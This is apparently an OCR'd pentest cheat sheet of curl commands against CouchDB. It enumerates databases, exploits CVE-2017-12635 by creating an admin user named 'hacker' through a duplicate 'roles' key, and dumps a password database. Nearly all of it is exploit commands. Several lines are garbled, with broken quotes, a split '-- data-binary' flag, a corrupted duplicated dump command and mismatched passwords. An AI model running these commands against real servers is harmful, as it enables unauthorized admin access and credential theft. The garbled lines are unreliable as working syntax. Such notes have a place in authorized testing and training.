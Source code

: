    
```bash - kali
curl http://$TARGET:5984/
```

```bash - kali
curl -X GET http://$TARGET:5984/_all_dbs
```

```bash - kali
curl -X GET http://$USER:$PASSWORD@$TARGET:5984/_all_dbs
```

### CVE-2017-12635 RCE

#### Create `hacker` user
```bash - kali
curl -X PUT ‘http://$TARGET:5984/_users/org.couchdb.user:hacker' -- data-binary ‘{ “type”: “user”, “name”: “hacker”, “roles”: [“_admin”], “roles”: [], “password”: “password” }’
```

#### Dump database
```bash - kali
curl http://$TARGET:5984/passwords/_all_docs?include_docs=true -u hacker:-Xpassword <ds/_all_docs?include_docs=true -u hacker:-Xpassword
```

#### Dump passwords
```bash - kali
curl -X GET http://hacker:passwords@$TARGET:5984/passwords
```

